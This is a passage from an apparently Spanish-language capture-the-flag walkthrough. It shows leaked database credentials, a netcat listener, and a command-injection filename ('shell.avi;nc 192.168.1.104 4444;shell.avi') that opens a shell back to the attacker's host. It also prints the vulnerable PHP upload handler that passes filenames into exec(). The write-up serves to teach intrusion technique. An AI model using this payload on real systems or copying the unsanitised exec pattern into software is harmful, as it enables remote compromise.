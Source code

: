 ```PHP
<?php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'tarantino');
define('DB_PASSWORD', 'killer');
define('DB_NAME', 'moviedb');
[...]
```

Bien, ya tenemos credenciales, vamos a ver si podemos entrar en el panel antes descubierto. Sí, podemos entrar! Una vez hayamos entrado veremos un botón que pone `Click me`, el cual nos descargará un `ZIP` con el nombre de `mydata_archive.zip`.

### Extracción de datos #2 (Alternativa)
Esto está muy bien, pero tardaremos un poco y habrá que hacer algo de tanteo, ya que si queremos conseguir algo habrá que encontrar el archivo `/var/www/html/data/config.php`, por lo que es algo tedioso.

Para poder conseguir el mismo resultado que el anterior creé un archivo con un nombre algo pecualiar, aunque antes nos pondremos en escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Bien, con esto hecho ya podemos crear dicho archivo con el siguiente nombre: `shell.avi;nc 192.168.1.104 4444;shell.avi`. Como vemos el nombre del archivo utiliza `;` para concatenar instrucciones. Si subimos dicho archivo veremos que recibimos la Shell.

Para entender el por qué pasa esto será necesario ver el código:

```
<?php
if($_SERVER["REQUEST_METHOD"] == "POST"){
    if(isset($_FILES["video"]) && $_FILES["video"]["error"] == 0){
        $allowed = array("avi" => "avi", "avi" => "video/x-msvideo");
        $filename = $_FILES["video"]["name"];
        $filetype = $_FILES["video"]["type"];
        $filesize = $_FILES["video"]["size"];
        $filename_without_ext = preg_replace('/\\.[^.\\s]{3,4}$/', '', $filename);
        $hostname = gethostname();

        $ext = pathinfo($filename, PATHINFO_EXTENSION);
        if(!array_key_exists($ext, $allowed)) die("Error: Please select a valid file format.");

        $maxsize = 5 * 1024 * 1024;
        if($filesize > $maxsize) die("Error: The file size is too big.");

        if(in_array($filetype, $allowed)){
            if(file_exists("upload_videos/" . $_FILES["video"]["name"])){
                echo $_FILES["video"]["name"] . " existe déjà.";
            } else{
                move_uploaded_file($_FILES["video"]["tmp_name"], "upload_videos/" . $_FILES["video"]["name"]);
                  exec("ffmpeg -i upload_videos/$filename converted_videos/$filename_without_ext.mp4");
                  exec("rm -rf upload_videos/*");
                  echo "Your file has been successfully uploaded." ."<br>". "http://$hostname/converted_videos/$filename_without_ext.mp4";
            } 
        } else{
            echo "Error: There was a problem downloading your file. Please try again."; 
        }
    } else{
        echo "Error: " . $_FILES["video"]["error"];
    }
}
?>
```